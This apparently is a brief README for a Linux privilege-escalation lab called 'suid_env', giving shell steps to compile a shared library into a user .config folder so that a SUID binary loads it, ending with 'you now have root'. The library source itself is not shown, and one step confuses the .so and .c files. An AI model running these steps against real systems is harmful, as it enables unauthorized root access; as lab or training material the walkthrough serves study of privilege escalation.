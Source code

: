 # suid_env

In command prompt type: mkdir /home/user/.config
In command prompt type: cd /home/user/.config
Open a text editor paste codes from libcalc.so or mv the libcalc.so to the .config folder
In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so

# Congrats you now have root
